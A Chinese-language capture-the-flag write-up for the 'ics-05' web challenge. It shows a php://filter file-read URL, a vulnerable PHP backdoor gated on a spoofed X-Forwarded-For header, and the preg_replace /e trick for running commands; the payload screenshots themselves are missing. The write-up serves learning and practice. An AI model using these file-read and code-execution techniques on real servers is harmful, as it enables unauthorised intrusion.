






# ics-05
## 题目描述
其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统
## 思路
http://220.249.52.133:53620  
点开题目链接，熟悉的界面，直接根据题目描述进入设备维护中心界面：  
  
没什么有用的信息，查看源码：  
  
看到有一个 GET 参数，尝试了 sql 注入，没什么卵用，然后不会了……看 wp，发现有个什么 php 伪协议？访问如下 url，似乎可以查看源码：  
http://220.249.52.133:53620/index.php?page=php://filter/read=convert.base64-encode/resource=index.php  
  
看到一段经过 base64 编码后的乱码，解码一下，看到 php 源码，我们直接看最重要的部分：  
```php
<?php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
    echo "<br >Welcome My Admin ! <br >";
    
    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        //从subject中检索pattern中的值，如果存在，则用replacement中的值替代
        //pattern可设置模式
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }
}
?>
```
首先需要用 xff 伪装一下请求主机的 ip，然后设置三个 GET 参数，并需要绕过 preg_replace。根据 wp，/e 模式可以让参数 replacement 的代码当作 PHP 代码执行。因此：  
  
可以成功执行，则列出当前目录的文件：  
  
看看这个最奇怪的文件夹里有啥，注意，此处不能用空格，因为 burp 中的请求包不会再做 url 编码，需要用加号或者 %20(url编码后的空格) 替代：  
  
有 flag，cat 失败，应该是个文件夹，继续 ls：  
  
查看该文件，获得 flag：  
  
